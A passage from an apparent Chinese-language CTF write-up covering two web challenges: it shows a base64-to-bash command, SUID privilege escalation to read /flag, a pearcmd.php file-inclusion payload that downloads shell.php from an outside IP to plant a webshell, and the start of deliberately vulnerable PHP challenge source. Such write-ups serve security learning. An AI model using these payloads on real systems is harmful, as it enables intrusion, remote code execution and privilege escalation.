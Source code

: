 ```
echo "xxxx" |base64 -d|bash
```

进去suid提权

```
install -m =xs `which date` /tmp
date -f /flag
```

###  解法2

没想到可以利用pearcmd.php来进行php裸文件包含,其实看到`pear`就应该反应过来

[看这个](https://blog.csdn.net/rfrder/article/details/121042290?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522166252175016782412565874%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=166252175016782412565874&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-7-121042290-null-null.nonecase&utm_term=php%E8%A3%B8%E6%96%87%E4%BB%B6&spm=1018.2226.3001.4450)

直接上payload

`pear`直接利用`URLencode`绕过，`install`换成`download`

```
?file=/usr/local/lib/php/%70%65arcmd.php&+download+
http://101.32.213.202:7777/shell.php 
```

远程服务器下载到当前⽬录 连接后suid提权\

本地写马因为过滤就不行了。

## web2--step_by_step-v3

这个题应该都是非预期打出来的

### 非预期

```php
<?php
error_reporting(0);
class yang
{
    public $y1;

    public function __construct()
    {
        $this->y1->magic();
    }

    public function __tostring()
    {
        ($this->y1)();
    }

    public function hint()
    {
        include_once('hint.php');
        if(isset($_GET['file']))
        {
            $file = $_GET['file'];
            if(preg_match("/$hey_mean_then/is", $file))
            {
                die("nonono");
            }
            include_once($file);
        }
```